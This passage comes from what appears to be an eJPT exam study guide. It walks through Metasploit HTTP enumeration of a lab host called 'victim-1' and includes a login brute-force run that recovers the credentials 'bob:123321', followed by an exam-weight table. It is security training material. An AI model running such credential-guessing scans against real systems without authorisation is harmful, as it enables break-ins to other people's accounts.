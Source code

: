### Step 9: Authentication Testing

```bash
# Test protected directory authentication
msfconsole -q
msf6 > use auxiliary/scanner/http/http_header
msf6 auxiliary(scanner/http/http_header) > set RHOSTS victim-1
msf6 auxiliary(scanner/http/http_header) > set TARGETURI /secure
msf6 auxiliary(scanner/http/http_header) > run

[+] 192.74.12.3:80 : WWW-AUTHENTICATE: Basic realm="Restricted Content"

# Try to find valid credentials
msf6 > use auxiliary/scanner/http/http_login
msf6 auxiliary(scanner/http/http_login) > set RHOSTS victim-1
msf6 auxiliary(scanner/http/http_login) > set AUTH_URI /secure/
msf6 auxiliary(scanner/http/http_login) > set VERBOSE false
msf6 auxiliary(scanner/http/http_login) > run

[+] Attempting to login to http://victim-1:80/secure/ (192.74.12.3)
[+] 192.74.12.3:80 - Success: 'bob:123321'

# 🏆 CREDENTIALS FOUND!
# Username: bob
# Password: 123321
```

### Step 10: Complete Mission Summary

```bash
# Summary of discoveries:
# ✅ Web Server: Apache/2.4.18 (Ubuntu)
# ✅ Hidden Directories: /data, /secure, /webmail, /admin
# ✅ File Upload: Possible in /data directory
# ✅ Authentication: Basic auth with weak credentials (bob:123321)
# ✅ Sensitive Files: config.php, backup.sql discovered

# 🎯 ENUMERATION COMPLETE!
# Ready for exploitation phase
```

---

## 🎯 eJPT Exam Focus (Critical for Success!)

### Exam Statistics You Must Know

| Skill Area | Exam Weight | Time to Spend | Must Master |
|------------|-------------|---------------|-------------|
| **Service Identification** | 🔴 25% | 5 minutes | http_version, http_header |
| **Directory Discovery** | 🔴 30% | 10 minutes | robots_txt, dir_scanner |
| **File Enumeration** | 🔴 25% | 8 minutes | files_dir, sensitive files |
| **Authentication Testing** | 🟡 15% | 7 minutes | http_login, basic auth |
| **Upload Testing** | 🟡 5% | 5 minutes | http_put method |
